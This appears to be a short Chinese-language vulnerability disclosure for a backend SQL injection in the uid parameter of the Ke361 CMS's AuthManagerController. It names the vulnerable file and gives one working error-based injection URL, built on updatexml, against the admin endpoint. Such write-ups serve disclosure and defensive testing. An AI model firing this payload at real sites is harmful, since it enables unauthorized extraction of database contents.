


# Ke361 AuthManagerController.class.php 后台SQL注入漏洞

## 漏洞描述

Ke361 AuthManagerController.class.php uid参数存在 SQL注入漏洞，通过漏洞可以获取数据库敏感信息

## 漏洞影响

```
Ke361
```

## 环境搭建

https://gitee.com/jcove/ke361

## 漏洞复现

存在漏洞的文件为 `Application/Admin/Controller/AuthManagerController.class.php`



```
/admin.php?s=/AuthManager/group/uid/1')%20AND%20updatexml(1,concat(0x7e,(select%20md5(1)),0x7e),1)--+
```

